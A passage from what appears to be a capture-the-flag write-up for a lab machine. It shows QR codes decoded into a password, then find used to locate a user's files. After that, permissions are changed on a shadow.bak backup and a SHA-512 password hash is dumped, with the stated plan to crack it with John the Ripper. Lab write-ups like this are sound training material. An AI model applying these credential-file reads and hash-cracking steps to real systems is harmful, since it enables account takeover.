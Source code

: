 ```bash
QR-Code:the
QR-Code:upcoming
QR-Code:challenges!
QR-Code:challenge,
QR-Code:we
QR-Code:hope
QR-Code:that
scanned 69 barcode symbols from 69 images in 0.5 seconds
```
Then we get the password for `cinco`!
```
cinco:ruy70m35
```
FLAG:
```
flag5{b1e870}
```

## SEIS flag
readme:
```
Check for Cinco's secret place somewhere outside the house
```
Using `find` command to find all files belongs to cinco:
```bash
cinco@svos:~$ find / -user cinco 2>/dev/null
/home/cinco
/home/cinco/flag5.txt
/home/cinco/.local
/home/cinco/.local/share
/home/cinco/.local/share/nano
/home/cinco/.profile
/home/cinco/readme.txt
/home/cinco/.bash_logout
/home/cinco/.bashrc
...
...
/cincos-secrets
/cincos-secrets/shadow.bak
/cincos-secrets/hint.txt
```
Notice there are some files in cincos-secrets

Try to cat the file:
```bash
cinco@svos:/cincos-secrets$ cat shadow.bak 
cat: shadow.bak: Permission denied
cinco@svos:/cincos-secrets$ ls -la
total 16
dr-xr-xr-x  2 cinco root 4096 Oct  9 18:07 .
drwxr-xr-x 25 root  root 4096 Oct 18 14:42 ..
-rw-r--r--  1 cinco root   31 Oct  9 18:07 hint.txt
--w-------  1 cinco root 1876 Sep 27 15:46 shadow.bak
```
We only have write permission, simply just run `chmod +r` to add read permission:
```bash
cinco@svos:/cincos-secrets$ chmod +r shadow.bak 
cinco@svos:/cincos-secrets$ cat shadow.bak 
daemon:*:18380:0:99999:7:::
...
...
seis:$6$MCzqLn0Z2KB3X3TM$opQCwc/JkRGzfOg/WTve8X/zSQLwVf98I.RisZCFo0mTQzpvc5zqm/0OJ5k.PITcFJBnsn7Nu2qeFP8zkBwx7.:18532:0:99999:7:::
```
Now we have the password hash of `seis`, we can use john the ripper to crack it!
